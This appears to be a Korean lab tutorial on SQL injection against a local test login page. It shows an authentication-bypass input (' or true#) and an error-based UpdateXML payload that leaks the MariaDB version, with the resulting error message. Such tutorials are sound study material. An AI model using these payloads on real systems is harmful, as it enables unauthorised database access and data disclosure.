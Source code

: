 ID에 ' or true#을 넣고 PW에 아무값을 넣어보자.

    http://192.168.0.58/index.php?id=%27+group+by+having+a%23&pw=123

![](images/2022-05-31-17-06-22.png)

# **UpdateXML**

UpdateXML함수의 인자 중 두번째 인자의 형식오류로 다양한 정보를 확인할 수 있다.

## **DBMS 버전 확인**

에러 메세지에 DBMS의 버전을 출력하도록 유도해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND UpdateXML(0,CONCAT(0x3a,VERSION()),0)# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+UpdateXML%280%2CCONCAT%280x3a%2CVERSION%28%29%29%2C0%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':10.3.34-MariaDB-0ubuntu0.20....'